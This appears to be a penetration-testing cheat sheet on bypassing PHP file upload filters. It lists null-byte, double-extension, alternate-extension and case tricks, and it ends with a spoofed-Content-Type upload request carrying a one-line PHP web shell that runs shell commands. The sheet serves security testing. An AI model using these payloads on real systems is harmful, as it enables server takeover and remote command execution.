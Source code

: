 ```yaml
---
title: WebApp PHP - File Upload Bypass
date: 2020-5-21
layout: single
classes: wide
tags:
  - PHP
  - WebApp
  - File
  - Upload
  - Bypass
--- 
```


## Overview
Techniques gathered to bypass PHP file upload filters.

### PHP Null Byte

```
photo.php%00.jpg
```
+ Only usable with older PHP versions ~<5.4

### Apache Dual Extentions

```
photo.php.png
```
+ Apache has a setting were a file can have 2 extensions
+ Apache will process the file as either type based on the extensions


### Alternate PHP Extentions

```
.phtml  .php3   .php4   .php5   .phps
```
+ There are many different file extensions for PHP.
+ Developers may blacklist `*.php` but forget `*.php3`

### Case Sensitive Bypass

+ Developers may blacklist `*.php` using case sensitive regex
+ This can be bypassed with `file.PhP`

### PHP File-Type Bypass

+ Typical of image uploads, developers will try to whitelist the allowed file types that may be uploaded.
```php
if ((($_FILES["file"]["type"] == "image/gif") || 
     ($_FILES["file"]["type"] == "image/jpeg")|| 
     ($_FILES["file"]["type"] == "image/JPG") ||
     ($_FILES["file"]["type"] == "image/png") || 
     ($_FILES["file"]["type"] == "image/pjpeg"))
```

+ This can be bypassed by changing the `Content-Type` in the POST request sent to the server

```bash
Content-Disposition: form-data; name="file"; filename="magic.php"
Content-Type: image/png

<?php echo shell_exec($_GET["magic"]); ?>
```   


## External References 
[PentesterLab.blog - Bypassing File Upload Restrictions](https://pentestlab.blog/2012/11/29/bypassing-file-upload-restrictions/)

